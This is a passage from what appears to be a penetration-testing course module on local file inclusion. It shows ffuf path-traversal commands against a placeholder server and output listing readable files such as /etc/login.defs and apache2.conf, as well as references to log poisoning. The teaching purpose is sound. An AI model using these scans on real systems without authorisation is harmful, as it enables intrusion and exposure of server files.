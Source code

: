 ...SNIP...

: Method           : GET
 :: URL              : http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
</code></pre>
<p>As we can see, the scan did indeed identify the correct webroot path at (<code>/var/www/html/</code>). We may also use the same <a href="https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt">LFI-Jhaddix.txt</a> wordlist we used earlier, as it also contains various payloads that may reveal the webroot. If this does not help us in identifying the webroot, then our best choice would be to read the server configurations, as they tend to contain the webroot and other important information, as we'll see next.</p>
<h4>Server Logs/Configurations</h4>
<p>As we have seen in the previous section, we need to be able to identify the correct logs directory to be able to perform the log poisoning attacks we discussed. Furthermore, as we just discussed, we may also need to read the server configurations to be able to identify the server webroot path and other important information (like the logs path!).</p>
<p>To do so, we may also use the <a href="https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt">LFI-Jhaddix.txt</a> wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this <a href="https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux">wordlist for Linux</a> or this <a href="https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows">wordlist for Windows</a>, though they are not part of <code>seclists</code>, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability, and see what we get:</p>
<pre><code class="language-shell-session">[!bash!]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
</code></pre>